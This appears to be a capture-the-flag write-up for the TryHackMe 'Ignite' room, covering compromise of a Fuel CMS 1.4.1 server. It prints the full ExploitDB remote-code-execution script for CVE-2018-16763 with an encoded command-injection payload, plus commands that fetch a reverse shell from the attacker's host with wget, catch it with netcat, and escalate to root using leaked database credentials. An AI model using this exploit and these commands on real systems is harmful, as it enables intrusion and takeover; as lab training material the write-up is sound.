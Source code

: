 ## Ignite - Try Hack Me

## 1. Overview
Some of the main points of this write-up:
- **Fuel CMS**
- **Pythonscript from ExploitDB**
- **php-reverse-shell - Pentestmonkey**
- **Stabilizing the shell**
- **Linpeas**

[Link to the machine](https://tryhackme.com/room/ignite)


## 2. Oppgaver
### 2.1 User.txt

```sh
export IP=10.10.150.222
```

First we run a **NMAP** scan:
```sh
nmap -sV -sC -oA nmap/ $IP
```
Found port 80 open, and we check out the site. It is running something called **Fuel CMS**, and we can access http://10.10.150.222/fuel to get a login page. We successfully log into the admin account with `admin:admin` as credentials.

Furthermore, we googled *FuelCMS vulnerability* and found a python script on [ExploitDB](https://www.exploit-db.com/exploits/47138):
```python
# Exploit Title: fuelCMS 1.4.1 - Remote Code Execution
# Date: 2019-07-19
# Exploit Author: 0xd0ff9
# Vendor Homepage: https://www.getfuelcms.com/
# Software Link: https://github.com/daylightstudio/FUEL-CMS/releases/tag/1.4.1
# Version: <= 1.4.1
# Tested on: Ubuntu - Apache2 - php5
# CVE : CVE-2018-16763

import requests
import urllib

url = "http://127.0.0.1:8881"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
	xxxx = raw_input('cmd:')
	burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
	r = requests.get(burp0_url)

	html = "<!DOCTYPE html>"
	htmlcharset = r.text.find(html)

	begin = r.text[0:20]
	dup = find_nth_overlapping(r.text,begin,2)

	print r.text[0:dup]

```

We changed it a bit, and removed the proxy to burp stuff, as well as changing the IP address to match the target. The function `find_nth_overlapping` will look for the answer from the webserver to our command. If we use the script without this function, it will just return way too much HTML text. So when we run the script and pass in the command `ìd` or `whoami` the server returns this output:

```sh
uid=0(www-data) gid=0(www-data) groups=0(www-data)
```

We then have permission to execute commands on the box. Meaning we can upload our own scripts. We can simply copy a file called php-reverse-shell.php from pentestmonkey. In this file we have to change a few things, in order for it to work. We specify our own IP and choose a random port number. In this case we chose 9003. Here is the github-link to the script that we used:  
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

Then we transfer this file over to the victim using **python**, and on our machine we use the following command:
```sh
python3 -m http.server 9002
```

And on the wictims machine we use the following command to cathch the file we want from our machine, which is named rev.php:
```sh
wget http://10.8.33.116:9002/rev.php
```

Now that the file is transfered, we can run it by simply get requedting it through the browser in firefox. And we set up a netcat listener on port 9001, specified above in the re.php file we made:
```sh
nc -lnvp 9001
```

So in the URL field we type in the following:

`http://10.10.150.222/rev.php`

Our listener should catch the shell, and we are in.


#### Stabilizing the shell
So the first thing we have to do is create a more stable shell. Here we can use the poor mans pentest tips from John Hammond, or look back at some IppSec youtube videos. First we run this command:

```sh
python -c 'import pty; pty.spawn("/bin/bash")'
```

Then we use ctr+z to send the shell to the background.

Now back to our own machines shell we type:
```sh
stty raw -echo
```

Then we type `fg` to bring the shell back to the foreground, and we are back with a shell that is more stable and can use tab-autocomplete.


### 2.2 root.txt
Now that we have a stable shell we can upload linpeas to see if there is anything we can use to escalate our privileges. Uploading Linpeas is done in the same way as with the method explained above. We use **python** to create a http server, then use `wget` on the victims machine to pull down the script. Linpeas is found on [this link](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite).

Linpeas found a very interesting file that is readable, and it is the database file.

`/var/www/html/fuel/application/config/database.php: 'password' => 'mememe'`

So the credentials are `root:mememe` and we can just log into the root user just by typing `su`

Now that we are root and can cat out the `root.txt` file.
